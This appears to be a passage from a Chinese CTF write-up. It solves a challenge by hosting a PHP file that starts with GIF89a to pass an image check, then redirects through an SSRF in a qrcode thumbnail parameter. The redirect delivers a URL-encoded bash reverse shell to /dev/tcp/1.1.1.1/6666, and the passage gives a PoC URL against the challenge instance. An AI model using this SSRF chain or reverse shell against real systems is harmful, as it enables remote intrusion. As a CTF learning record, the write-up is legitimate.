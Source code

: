 在 cmd 里传递反弹 shell 命令，这里比前提题多加了些限制，服务会检查给出的链接是否为图片，否则就不执行，通过加 GIF89a 绕过即可

```PHP
# 1.php 需在公网服务器上部署
#define width 1337-
#define height 1337
GIF89a
<?php
echo "GIF89a";
header("Location: http://127.0.0.1/flag.php?cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%26%3e%2f%64%65%76%2f%74%63%70%2f%31%2e%31%2e%31%2e%31%2f%36%36%36%36%20%30%3e%26%31%27",true,302);
exit();
?>
```

POC:

```PHP
http://eci-2ze3s1k73olbw1irlfl1.cloudeci1.ichunqiu.com/?s=api&c=api&m=qrcode&text=1&thumb=http://1.1.1.1/1.php&size=10&level=1
```

![img](https://cdn.jsdelivr.net/gh/Aar0n3906/blog-img/1716133694110-49.png)

反弹得到的 shell 在根目录使用 ./readflag 即可得到 Flag
